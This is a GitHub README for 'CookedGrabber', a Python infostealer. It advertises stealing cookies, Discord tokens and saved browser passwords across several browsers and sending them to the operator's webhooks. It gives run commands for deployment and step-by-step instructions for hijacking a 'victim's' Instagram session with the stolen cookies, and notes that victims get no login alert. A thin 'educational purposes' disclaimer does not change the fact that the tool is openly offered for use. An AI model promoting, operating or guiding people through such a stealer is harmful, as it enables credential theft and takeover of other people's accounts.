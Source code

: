 <div align="center">
  <img src="https://imgur.com/lCyX6TX.png">
  <br>
  <br>
  <p>
    <img src="https://forthebadge.com/images/badges/made-with-python.svg">
    <img src="http://forthebadge.com/images/badges/built-with-love.svg">
  </p>
  <h4> Discord, Twitter, Instagram, netflix cookies, token grabber and also password grabber. Grabbing from all web browsers ! </h4>
  <p>
    <img alt="GitHub contributors" src="https://img.shields.io/github/contributors/mouadessalim/CookedGrabber">
    <img alt="GitHub issues" src="https://img.shields.io/github/issues/mouadessalim/CookedGrabber">
    <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=shields">
    <img alt="GitHub pull requests" src="https://img.shields.io/github/issues-pr/mouadessalim/CookedGrabber">
    <img alt="GitHub" src="https://img.shields.io/github/license/mouadessalim/CookedGrabber">
    <img alt="GitHub commit activity" src="https://img.shields.io/github/commit-activity/m/mouadessalim/CookedGrabber">
    <img alt="Maintenance" src="https://img.shields.io/maintenance/yes/2022">
  </p>
  <p align="center">
    <a href="#usage">Usage</a> •
    <a href="#cookies">Cookies</a> •
    <a href="#compatibility">Compatibility</a> •
    <a href="#disclaimer">Disclaimer</a> •
    <a href="#contributing">Contributing</a> •
    <a href="#license">License</a> •
    <a href="#other-projects">Other projects</a> 
  </p>
  <p align="center">
    <i>Loved the tool? Please consider <strong>donating</strong> 💸 to help it improve!</i>
  </p>

  <p align="center">
    <a href='https://ko-fi.com/mouadessalim' target='_blank'><img height='30' width="115" src='https://cdn.ko-fi.com/cdn/kofi3.png?v=2' alt='Buy Coffee for mouadessalim' />
    </a>
    <a href="https://www.buymeacoffee.com/mouadessalim" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="30" width="115" style="border-radius:1px" />
    </a>
  </p>
</div>

# 📈Usage

## Requirements ⚡

- **Windows 10** OS only (*win32, for x86, x86_64, and arm64 architectures*)
- **Python 3.x** (*python 3.9 used for the project.*)
- **Modules:** `$ pip install -r requirements.txt`

## How to use ? ❄

There is 2 ways to run the script.

### 1. First way

You need to add your **webhook(s)** **link(s)** to the script from this line:
https://github.com/mouadessalim/CookedGrabber/blob/f753c4bea37241d94253a288dd223c5ae8f7f371/CookedGrabber.py#L290
*You can run the script normaly.*

### 2. Second way

You can also run the program by giving several arguments (the webhook(s) link(s)):
```console
py CookedGrabber.py YOUR WEBHOOK(s) URL(s)
```

## Screenshots 📷

<p align="center">
  <img src="https://user-images.githubusercontent.com/38190847/188172516-da111666-ff8e-4cdb-86c4-1cbd82f87e91.png">
  <img src="https://user-images.githubusercontent.com/38190847/191291652-e617410c-62e8-489b-b8df-e738a9ed40c4.png">
</p>

# 🍪Cookies

## What are cookies ?

Cookies are text files with small pieces of data like a username and password that are used to identify your computer as you use a computer network. Specific cookies known as HTTP cookies are used to identify specific users and improve your web browsing experience.

Data stored in a cookie is created by the server upon your connection. This data is labeled with an ID unique to you and your computer.

When the cookie is exchanged between your computer and the network server, the server reads the ID and knows what information to specifically serve to you.

## What are cookies used for ?

Websites use HTTP cookies to streamline your web experiences. **Without cookies, you’d have to login again after you leave a site or rebuild your shopping cart if you accidentally close the page.** Making cookies an important a part of the internet experience. 

## Security breach with cookies

Since the data in cookies doesn't change, cookies themselves aren't harmful. They can't infect computers with viruses or other malware. However, some cyberattacks can hijack cookies and enable access to your browsing sessions.

The server only sends the cookie when it wants the web browser to save it. If you’re wondering “where are cookies stored,” it’s simple: your web browser will store it **locally** to remember the “name-value pair” that identifies you.

**⚠ When you try to connect to an account using cookies it does not even generate a new login request to the server, that mean that the victim does not even receive the email with a `new connexion detected`. The target don't know that you are connected to the account because the server think it's him !**

*****☢ This reveals major security breaches in general websites and social networks ! ☢*****

## How to bypass websites with cookies ?

So to use cookies to log into the victim account, you must have a cookies extension. I recommand [Cookie-Editor](https://chrome.google.com/webstore/detail/cookie-editor/hlkenndednhfkekhgcdicdfddnkalmdm). **To bypass website security you must be already connected to your personnal account to generate all cookies needed for the website.** After being sure that all default cookies have been generated use your cookies extension to replace your personnal id account cookies with the grabbed victim account cookies.

#### *****Example: Instagram*****

![image](https://user-images.githubusercontent.com/38190847/191361287-696f24ae-986e-40f2-9e6d-eb95dddfdbc8.png)

You need to put each value in it's place with the cookies extension:

![image](https://user-images.githubusercontent.com/38190847/191360860-dd5c75b3-5663-4449-ba72-f4492b88cef2.png)

> Once the cookies replaced and saved, refresh the page and you are logged in the victim account !

# 🌐Compatibility

| Browsers           | Cookies and token grabber 🔍 | Password stealer 💥 | 
| :-----------:      | :-----------: | :-----------: |
| Chrome             | ✅ | ✅ |
| Edge               | ✅ | ❌ |
| Brave              | ✅ | ❌ |
| Firefox            | ✅ | ❌ |
| Opera (GX)         | ✅ | ❌ |
| Vivaldi            | ✅ | ❌ |
| Chromium navigator | ✅ | ❌ |

# ❗Disclaimer

- **Only for educationnal puposes.**
- **We decline any responsability in case of misuse of this code.**

# ✨Contributing

Your contributions are always welcome! if you contribute we will show your account in the README file ! Please have a look at the [contribution guidelines](CONTRIBUTING.md) first. 🎉

## Authors ❤

<a href="https://github.com/mouadessalim/CookedGrabber/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=mouadessalim/CookedGrabber" />
</a>
<br>
<br>

> **Working on your first Pull Request?** You can learn how from this *free* series [How to Contribute to an Open Source Project on GitHub](https://kcd.im/pull-request)

# 📝License

The actual repository is _unlicensed_, it mean **all rights are reserved**. You cannot modify or redistribute this code without **explicit** permission from the copyright [holders](https://github.com/mouadessalim/CookedGrabber/graphs/contributors). 

_Violating this rule may lead our intervention according to the [Github Terms of Service — User-Generated Content — Section D.3](https://docs.github.com/en/site-policy/github-terms/github-terms-of-service#3-ownership-of-content-right-to-post-and-license-grants) using the [Content Removal Policies — DMCA Takedown Policy](https://docs.github.com/en/site-policy/content-removal-policies/dmca-takedown-policy#what-is-the-dmca)_.

# 💡Other projects

If you love this repository you may be interested in these projects:

[![Readme Card](https://github-readme-stats.vercel.app/api/pin/?username=9P9&repo=Discord-QR-Token-Logger&show_owner=true)](https://github.com/9P9/Discord-QR-Token-Logger)
